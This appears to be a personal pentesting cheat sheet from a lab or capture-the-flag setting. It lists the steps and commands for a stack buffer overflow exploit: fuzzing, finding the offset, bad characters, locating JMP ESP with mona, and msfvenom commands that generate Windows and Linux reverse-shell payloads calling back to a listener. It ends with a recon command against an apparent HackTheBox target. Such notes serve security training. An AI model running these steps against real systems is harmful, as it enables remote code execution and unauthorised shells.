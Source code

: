 ## Buffer Overflow
  
- Spike
  - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`
- Fuzz
  - `~/Code/buffer-overflow/fuzzer.py`
- Generate unique pattern:
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`
- Finding the offset
  - `~/Code/buffer-overflow/offset.py`
  - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
  - (1) `!mona findmsp`
- Confirm offset
  - `~/Code/buffer-overflow/overwrite_eip.py`
- Find badchars
  - `~/Code/buffer-overflow/badchars.py`
- Find Jump
  - `!mona modules`
  - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
  - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
  - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`
- Exploit buffer overflow
  - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
  - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
  - `~/Code/buffer-overflow/exploit_buffer_overflow.py`

## Recon

- `python3 ~/Repositories/AutoRecon/autorecon.py 10.10.10.74 --single-target -o /root/Recon/HTB/Chatterbox/`
